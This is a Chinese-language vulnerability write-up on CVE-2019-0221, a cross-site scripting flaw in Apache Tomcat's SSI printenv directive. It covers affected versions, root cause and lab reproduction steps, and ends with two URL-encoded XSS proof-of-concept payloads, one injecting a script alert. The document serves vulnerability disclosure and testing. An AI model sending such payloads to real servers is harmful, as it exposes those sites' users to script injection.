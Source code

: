 # CVE-2019-0221 Apache Tomcat SSI printenv指令中的XSS

### 一、漏洞简介

Apache Tomcat在其SSI实现中存在漏洞，可用于实现跨站点脚本（XSS）。只有在启用SSI并使用“printenv”指令的情况下，才能利用此漏洞。

**利用条件**

必须在Apache Tomcat中启用SSI支持 - 全局或特定Web应用程序。默认情况下不启用。

Web应用程序中必须存在具有“printenv”SSI指令的文件(通常为“.shtml”)。

攻击者必须能够访问该文件。

### 二、漏洞影响

Apache Tomcat 9.0.0.M1版本至9.0.0.17版本、

Apache Tomcat 8.5.0版本至8.5.39版本

Apache Tomcat 7.0.0版本至7.0.93版本

### 三、复现过程

**漏洞分析**

服务器端包含(SSI)是一些Web服务器中使用的一种简单的脚本语言，用于实现包括文件、变量的值回显和显示有关文件的基本信息等功能。这些只是针对于SSI特定的环境变量，它们要么由用户设置，要么包含关于传入HTTP请求的信息。（请参阅此处的完整列表）。

“echo”指令打印出单个变量的值，而“printenv”指令打印出所有变量的值。这两个指令都输出HTML。Apache Tomcat对于使用“echo”指令时正确地转义了XSS值，但对于“printenv”指令则没有。因此，如果应用程序使用这个指令，攻击者可以注入恶意输入，从而导致XSS。

比较“echo”参数中正确转义输出的代码：

![](images/15893706571659.png)


与未对输出进行正确转义的“printenv”参数的代码相比：

![](images/15893706626936.png)


修复方法是添加如下提交中所示的编码：

![](images/15893706685127.png)


### 漏洞复现

* 1.在Windows中安装Java运行时环境(JRE)。
* 2.下载有漏洞的Tomcat版本并解压。
* 3.在第19行修改conf\context.xml文件，获得上下文权限（(这也可以在单个应用程序上执行，而不是全局执行）


```bash
Context privileged =“true”>
```

* 4.根据这里的指令修改conf\web.xml以启用SSI servlet(这也可以在单独的应用程序上完成，也可以是全局的)。
* 5.将以下代码放在“webapps / ROOT / ssi / printenv.shtml”中：


```html
<html><head><title></title><body>
Echo test: <br /><br />
Printenv test: 
</body></html>
```

* 6通过以下命令运行Tomcat：


```bash
cd bin
catalina run
```

* 7.利用以下URL来触发XSS(可能需要使用Firefox)。观察正确转义的“echo”指令与无法正确转义的“ printenv ”指令之间的区别


```bash
http://url:8080/ssi/printenv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EXSS%3C/h1%3E%3Cbr/%3E%3Cbr/%3E

http://url:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E
```

![](images/15893707393124.png)


![](images/15893707426355.png)


**参考链接**

https://xz.aliyun.com/t/5310